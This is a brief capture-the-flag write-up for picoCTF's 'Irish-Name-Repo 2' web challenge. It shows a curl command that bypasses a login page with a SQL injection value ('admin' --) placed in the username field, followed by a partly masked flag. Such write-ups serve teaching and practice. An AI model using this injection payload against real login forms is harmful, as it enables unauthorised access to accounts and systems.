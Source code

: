 # picoCTF – Irish-Name-Repo 2 

* **Category:** Web
* **Points:** 300

## Challenge

> Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login!  

## Solution

Similar to **Irish-Name-Repo 1** make a request to login page using crafterd SQL query.

Using *curl* make a request with username field containing text **admin** followed by **--**. The two hypens will comment out rest of the query which will get executed in the SQL server.
```
curl "<URL>/login.php" -d "username=admin' --&password=&debug=1"
```


```
picoCTF{m0R3_SQL_plz_xxxx}
```
